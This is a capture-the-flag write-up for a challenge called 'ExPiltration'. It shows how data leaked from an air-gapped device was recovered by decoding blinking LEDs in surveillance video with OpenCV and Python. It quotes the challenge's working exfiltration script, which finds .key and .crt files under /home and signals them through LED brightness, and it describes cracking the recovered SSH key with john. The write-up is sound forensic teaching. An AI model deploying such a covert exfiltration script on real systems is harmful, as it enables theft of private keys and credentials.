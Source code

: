 # ExPiltration

**Writeup by: r41d3r**

## Problem

by Kev1n

Oh sh$t.. (!) Our network has been compromised and data stored on an air-gaped device stolen but we don't know exactly what has been extracted and how? We have 24/7 video surveillance in the server room and nobody has approched the device.. Here is all I have, could you please give us a hand?

forensic-data.zip

## Solution

**Summary**
- Identify exfiltration script: systemupdate.py
- View video - recognize lights are blinking binary code
- Python script using OpenCV to read the blinking light pattern
- Python script to extract binary data
- Convert to text with dcode.fr/en
- ssh2john to test private key
- certificatedecoder.dev to decode certificate
- flag in cert!

Here is the script found on the server that stole the data.

**systemupdate.py <- found on system**
```
import os
import time
import binascii

DELAY = 0.05

def init_leds():
	os.system("echo none > /sys/class/leds/led0/trigger")
	os.system("echo none > /sys/class/leds/led1/trigger")

def restore_leds():
	os.system("echo mmc0 > /sys/class/leds/led0/trigger")
	os.system("echo default-on > /sys/class/leds/led1/trigger")

def text_to_bits(text, encoding='utf-8', errors='surrogatepass'):
    bits = bin(int(binascii.hexlify(text.encode(encoding, errors)), 16))[2:]
    return bits.zfill(8 * ((len(bits) + 7) // 8))

def exfiltrate(data):
	stream = text_to_bits(data)
	for b in stream:
		if b=='0':
			os.system("echo 0 > /sys/class/leds/led0/brightness")
		else:
			os.system("echo 1 > /sys/class/leds/led0/brightness")

		time.sleep(DELAY)
		os.system("echo 1 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)
		os.system("echo 0 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)

def find_scret_file(path):
	files = []
	for r, d, f in os.walk(path):
		for file in f:
			if '.key' in file or '.crt' in file:
				files.append(os.path.join(r, file))

	for f in files:
		print("[+] Secret file discovered ({0}).. starting exfiltration".format(f))
		with open(f, 'r') as h:
			data = h.read()
		exfiltrate(data)

def main():

	init_leds()
	find_scret_file("/home")
	restore_leds()

if __name__ == '__main__':
	main()

```

Reading through this code shows us two things:
- the blinking lights are how the data was taken
- the blinking lights can be the code

The lights are blinking too fast to record by hadn.  Researching ways to have the computer read the blinking for me gets me to OpenCV .  Reading the docs and some pages give me some ideas for a script that watches both the lights and copies the frame by frame data.

**cv.py**
- converts blinking lights on video to binary bits
```
import numpy
import cv2

cap = cv2.VideoCapture('surv.mp4')

f = open('light_pattern.txt','w')

frame_num = 1

while(cap.isOpened()):
    ret, frame = cap.read()
    gray = cv2.cvtColor(frame, cv2.COLOR_BGR2GRAY)
    led1tmp = 0
    led0tmp = 0
    if gray[550,717] > 200:
        led0tmp = 1
    if gray[550,736] > 200:
        led1tmp = 1
    print(led0tmp,led1tmp, frame_num)
    write_tmp = str(led0tmp) + "," + str(led1tmp) + "," + str(frame_num) + "\n"
    f.write(write_tmp)
    frame_num = frame_num + 1
    if ret==True:
        cv2.imshow('Frame',gray)
        if cv2.waitKey(25)&0xFF==ord('q'):
            break
    else:
        break
cap.release()

cv2.destroyAllWindows()

f.close()
```

And our output: 

**data sample from cv.py**
```
0,1,65419
0,1,65420
0,1,65421
0,1,65422
0,0,65423
0,0,65424
1,0,65425
1,0,65426
1,0,65427
1,0,65428
1,1,65429
1,1,65430
1,1,65431
1,1,65432
1,0,65433
1,0,65434
1,0,65435
1,0,65436
1,0,65437
1,0,65438
1,1,65439
1,1,65440
1,1,65441
1,1,65442
1,0,65443
1,0,65444
1,0,65445
1,0,65446
0,0,65447
0,0,65448
0,1,65449
0,1,65450
0,1,65451
0,1,65452
0,1,65453
0,1,65454
1,0,65455
```

Going back to systemupdate.py it shows that the lights blink in a specific pattern and a script that reads the state of led0 at the time that led1 changes from dark to light will recreate the binary data.  Here is the script I came up with:

**change.py**
- converts binary bits from video to binary code
```
f = open('light_pattern.txt', 'r')

lst = []

tmp = '1'

new_list = []
new_str = ''

for line in f:
    data = line.replace('\n', '')
    data = data.split(',')
    if data[1] == '1':
        if tmp == '0':
            print(data[0])
            new_str = new_str + data[0]
            if len(new_str) == 8:
                if new_str[0] == '1':
                    new_str = new_str[1:]
                else:
                    new_list.append(new_str)
                    new_str = ''
    tmp = data[1]
f.close()

print(new_str)

f = open('bin_pattern.txt', 'w')
for i in range(0,len(new_list)):
    f.write(new_list[i])
f.close()

```

Sample output:

```
001011010010110100101101001011010010110101000010010001010100011101001001010011100010000001010010010100110100000100100000010100000101
```

**Converting the Ascii**
I did this the lazy way and used dcode.fr to conver from binary to ascii.  This gave a doc with the private key and cert recreated.

**Testing the private key**
- used ssh2john to convert the private key to hash
- john finds password: 1234

**Testing the cert**
- used certificatedecoder.dev to convert the cert to plaintext
- conversion shows flag!
